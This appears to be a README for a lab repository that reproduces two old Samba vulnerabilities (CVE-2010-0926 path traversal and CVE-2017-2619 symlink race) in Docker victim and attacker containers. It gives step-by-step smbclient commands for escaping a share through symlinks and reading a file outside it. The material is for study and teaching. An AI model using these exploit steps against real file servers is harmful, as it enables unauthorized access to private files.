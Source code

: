 # vulnsamba

This repo contains proof of concept exploits for 2 CVEs on old versions of samba.<br>
For each CVE, there are two docker containers: `victim` and `attacker`.





## Table of contents

* [CVE-2010-0926](#cve-2010-0926)
  * [Information and links](#information-and-links)
  * [Containers description](#containers-description)
  * [Instructions to reproduce](#instructions-to-reproduce)
* [CVE-2017-2619](#cve-2017-2619)
  * [Information and links](#information-and-links-1)
  * [Containers description](#containers-description-1)
  * [Instructions to reproduce](#instructions-to-reproduce-1)





## CVE-2010-0926


### Information and links
More on mitre: [CVE-2010-0926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0926)<br>
Category: [CWE-22 Path Traversal](https://cwe.mitre.org/data/definitions/22.html)<br>
Vulnerable version: `samba-3.4.5`<br>
Exploit was taken from: https://www.exploit-db.com/exploits/33599<br>
Another guide that helped me in creating this one: https://github.com/roughiz/Symlink-Directory-Traversal-smb-manually


### Containers description

* `victim` container contains `samba-3.4.5`, which was built from the sources, and configured to have two shares: `public` and `private`
* `attacker` container contains patched version of `samba-3.4.5` client, which allows creating symlinks to outside of a share


### Instructions to reproduce

1. Pull the needed images from dockerhub<br>
`docker pull kezzyhko/cve-2010-0926_victim`<br>
`docker pull kezzyhko/cve-2010-0926_attacker`

1. Run the vulnerable server<br>
`docker run -it --name cve-2010-0926_victim kezzyhko/cve-2010-0926_victim`<br>
You may see no sign of anything happening, but that's ok, `smbd` should have started working in the background

1. Find out the server container's ip<br>
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' cve-2010-0926_victim`<br>
Remember it, we will need it to connect to the server

1. Run the attacker container<br>
`docker run -it --name cve-2010-0926_attacker kezzyhko/cve-2010-0926_attacker`

1. In the attacker container, connect to the server as a guest using `smbclient`<br>
`smbclient -N \\\\<ip>\\public`<br>
Note, that `\` characters are repeated twice, because they need to be escaped

1. Create the symlink to the root (or any other folder outside share)<br>
`symlink / rootfs`

1. Finally, get the secret from the private share<br>
`cd rootfs`<br>
`cd private`<br>
`get secret.txt`<br>
`exit`<br>
`cat secret.txt`<br>
You should see the following string: `You f0und 7he s3cret!`





## CVE-2017-2619


### Information and links
More on mitre: [CVE-2017-2619](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-2619)<br>
Categories: [CWE-59 Link Following](https://cwe.mitre.org/data/definitions/59.html) and [CWE-362 Race Condition](https://cwe.mitre.org/data/definitions/362.html)<br>
Vulnerable version: `samba-4.5.2`<br>
Exploit was taken from: https://www.exploit-db.com/exploits/41740


### Containers description

* `victim` container contains:
  * `samba-4.5.2`, which was built from the sources
  * configuration to have `public` share
  * `\secret` - file inside the root directory
* `attacker` container contains patched version of `samba-4.5.2` client. Patch adds two commands to `smbclient`:
  * `rename_loop <src1> <src2> <dest>` - infinite loop, which renames `<src*>` to `<dest>` and then back, so that `<dest>` will constantly switch between being `<src1>` and `<src2>`
  * `dump <file>` - infinite loop, which constantly tries to output `<file>`'s contents and ignores errors


### Instructions to reproduce

1. Pull the needed images from dockerhub<br>
`docker pull kezzyhko/cve-2017-2619_victim`<br>
`docker pull kezzyhko/cve-2017-2619_attacker`

1. Run the vulnerable server<br>
`docker run -it --name cve-2017-2619_victim --cap-add=SYS_PTRACE --security-opt seccomp=unconfined kezzyhko/cve-2017-2619_victim`<br>
Here we need to supply additional parameters to be able to use `strace -p` later.<br>
You may see no sign of anything happening, but that's ok, `smbd` should have started working in the background.

1. Find out the server container's ip<br>
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' cve-2017-2619_victim`<br>
Remember it, we will need it to connect to the server

1. Renaming side of the attack

   1. Run the first attacker container<br>
   `docker run --rm -it --name cve-2017-2619_attacker_1 kezzyhko/cve-2017-2619_attacker`

   1. In the `attacker_1` container, create an empty file, we will need it later<br>
   `touch empty`

   1. Connect to the server as a guest using `smbclient`<br>
   `smbclient -N \\\\<ip>\\public`<br>
   Note, that `\` characters are repeated twice, because they need to be escaped

   1. Enable posix features<br>
   `posix`

   1. Create the symlink to the root directory<br>
   `symlink / link`

   1. Create the normal directory<br>
   `mkdir dir`

   1. Create the empty file inside the normal directory, and name it `secret`<br>
   `put empty dir/secret`

   1. Start the renaming loop<br>
   `rename_loop link dir switching`

1. Reading side of the attack

   1. Run the second attacker container and connect to the server<br>
   `docker run --rm -it --name cve-2017-2619_attacker_2 kezzyhko/cve-2017-2619_attacker`<br>
   `smbclient -N \\\\<ip>\\public`

   1. Inside the `attacker_2` container, start the reading loop<br>
   `dump switching/secret`<br>
   
   1. Some explanation<br>
   At this point, out `attacker_2` client is reading from `switching/secret`, which might be either `link/secret` or `dir/secret`. Theoretically, `smbd` on the `victim` container might check that reading from `switching` is ok, since it is just `dir` inside the share, but then our `attacker_1` will change `switching` to be the `link`, and `victim` will read from `link/secret`, which is equivalent to just `/secret` outside the `public` share.<br>
   However, it is not very likely for this to happen, and it may take a long time to wait. For the sake of PoC, we will slow down the `attacker_2`
   
   1. find out the pid of `smbd` process, which handles the `attacker_2`<br>
   For this, run `ps aux` in the `victim` container. The pid we are looking for should be the largest pid with `smbd -D` command.
   
   1. Artificially slow down the process<br>
   `strace -p<pid>`
   
   1. Now, look at the output in `attacker_2` process. You should see the following string: `You f0und 7he s3cret!`
